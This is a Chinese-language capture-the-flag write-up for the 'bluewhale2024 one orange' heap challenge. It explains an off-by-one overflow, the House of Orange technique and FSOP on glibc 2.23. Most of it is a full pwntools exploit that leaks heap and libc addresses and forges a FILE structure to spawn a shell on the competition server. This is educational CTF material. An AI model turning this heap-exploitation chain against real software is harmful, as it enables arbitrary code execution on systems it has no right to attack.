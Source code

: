 ```yaml
---
title: bluewhale2024 - one orange 
date: 2024/5/4 00:11:00
updated: 2024/7/25 12:34:56
tags:
    - heap - unsorted
    - House of Orange
    - libc2.23
thumbnail: /assets/bluewhale2024/orange.png
excerpt: 利用House of Orange技术，结合堆溢出和libc泄露，成功利用漏洞进行攻击。
---
```


{% note %}
🍊
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.23-0ubuntu11.3|

## 解题思路

没做出来...看到off by one了，但是脑子里全是House of Einherjar，后来想到利用top_chunk，
但是就是没想到可以再利用一个可控制的堆块来控制top_chunk，明明kasio才刚用过这个技巧  
我还纳闷，只能溢出0xe8字节，但是伪造堆块就得消耗至少0x10个字节，没法写全file结构体啊！

除了off by one，剩下的就是House of Orange了，看看博客就能做

后来看了官方wp，可算看懂了，画了堆块示意图如下：

![heap layout](/assets/bluewhale2024/orange.png)

收获如下：

1. 在top_chunk被放入unsorted bin时，会产生2个0x10大小的堆块
2. 调试house of orange的时候可以用`watch *(_IO_FILE*)_IO_list_all`来关注FSOP是如何运行的，
毕竟最后一次malloc完成了很多操作，不方便观察
3. 对chunk做如下操作在这个版本是合法的：
  - `p = malloc(0x118)` -> long[35], size: 0x121
  - `p[-1] = 0x101; p[0x100 / 8] = 0x21`
  - `free(p); p[-1] = 0x1f1` now `p` in unsorted bin
  - `np = malloc(0x1e8)` -> long[61], size: 0x1f1; `p == np`

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './orange'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20790)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
    elf = ELF(EXE)

    def addn(idx:int, size:int):
        sh.sendlineafter(b'4.', b'1')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendlineafter(b'size', str(size).encode())

    def deln(idx:int) -> int:
        sh.sendlineafter(b'4.', b'2')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b'delete: ')
        return int(sh.recvline(), 16)

    def edit(idx:int, cont:bytes, overflow:bool=False):
        sh.sendlineafter(b'4.', b'3')
        sh.sendlineafter(b'index', str(idx).encode())
        if overflow:
            sh.sendafter(b'cont', cont)
        else:
            sh.sendlineafter(b'cont', cont)
        
    def show(idx:int) -> bytes:
        sh.sendlineafter(b'4.', b'4')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b'tent:\n')
        return sh.recvuntil(b'1.')

    addn(1, 0x3d8)
    addn(2, 0x3d8)
    addn(3, 0x3d8) # prepare for page alignment

    # Step 1, construct heap layout
    addn(4, 0x1f8)
    addn(5, 0xe8)

    # Step 2, set size of chunk 4 from 0x201 to 0x2f1
    # overlapping chunk 5
    edit(3, b'0'*0x3d8 + b'\xf1', True)

    # Step 3, free chunk 4 to deceive top_chunk down to chunk 4
    heapBase = deln(4) - 0xbb0
    success(GOLD_TEXT(f'Leak heapBase: {hex(heapBase)}'))

    # Step 4, shrink top_chunk to make top_chunk in control (editable in chunk 5)
    # top_chunk.size -= 0x210
    addn(4, 0x208)

    # Step 5, mod top_chunk size from 0x20251 to 0x251
    edit(5, p64(0) + p64(0x251))

    # Step 6, malloc a chunk larger than 0x251 to sweep old top_chunk into unsorted bin
    # now in chunk 5, fd contains libc
    addn(6, 0x300)
    val = show(5)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(val[0x10:0x16] + b'\0\0') - 0x58 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    success(GOLD_TEXT(f'leak libcBase: {hex(libcBase)}'))
    ioListAll = libcBase + libc.symbols['_IO_list_all']
    system = libcBase + libc.symbols['system']

    file = FileStructure()
    file.flags = u64(b'/bin/sh\0')
    file._IO_read_ptr = 0x61
    file._IO_read_base = ioListAll - 0x10
    file._IO_write_ptr = 1
    file.vtable = heapBase + 0x10

    # Step 7, force file structure and set old top_chunk size from 0x231 to 0x61
    # in this case, old top_chunk falls in small_bin
    # and force vtable by the way
    edit(5, bytes(file))
    edit(1, p64(0)*3 + p64(system))

    # Step 8, malloc a chunk larger than 0x60 to trigger FSOP
    addn(7, 0x100)

    sh.clean()
    sh.interactive()
```

## 参考文献

[House of Orange](https://www.cnblogs.com/ZIKH26/articles/16712469.html)
